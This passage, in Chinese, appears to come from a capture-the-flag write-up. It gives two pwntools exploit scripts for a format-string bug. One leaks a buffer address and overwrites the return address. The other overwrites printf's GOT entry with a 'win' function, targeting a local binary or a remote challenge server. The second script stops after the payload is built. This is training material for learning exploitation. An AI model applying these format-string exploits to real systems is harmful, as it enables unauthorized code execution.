 ![image-20200816134500019](./image-20200816134500019.png)

得到buf的地址，就可以直接通过格式化字符串漏洞把返回地址改了，这里使用pwntools内置的函数，只需要传递offset（offset在方法一种找到了，是6）和要改写的地址和内容就可以了。

**exp**

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

context.arch = 'amd64'
debug = True
if debug:
    conn = process('./a.out')
else:
    conn = remote('220.249.52.133', 39751)

win = 0x4008DA
log.success("win addr is {}\n".format(hex(win)))
offset = 6
log.success("offset is {}\n".format(offset))

conn.sendlineafter('3. Exit the battle \n', '2')
conn.sendline("%1$p")
buf_addr = int(conn.recvuntil('\n'), 16)
conn.sendlineafter('3. Exit the battle \n', '2')
payload = fmtstr_payload(6, {buf_addr+0x98 : win})
conn.sendline(payload)

recv = conn.recvall()
log.success("recv is {}".format(recv))
conn.sendlineafter('Exit the battle \n', '3')
```

## 方法三：

偏移在方法一种找到了，直接利用pwntools改就完事了。我这里改的是`printf`的地址，所以**改完以后需要在调用一次printf**才行。改别的函数也是一样的，可以自行尝试。

**exp**

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

context.arch = 'amd64'
debug = True
if debug:
    conn = process('./a.out')
else:
    conn = remote('220.249.52.133', 39751)

elf = ELF('./a.out')
win = 0x4008DA
log.success("win addr is {}\n".format(hex(win)))
offset = 6
log.success("offset is {}\n".format(offset))

conn.sendlineafter('3. Exit the battle \n', '2')
log.success("got.printf is {:#x}".format(elf.symbols['got.printf']))
payload = fmtstr_payload(6, {elf.symbols['got.printf']: win})
```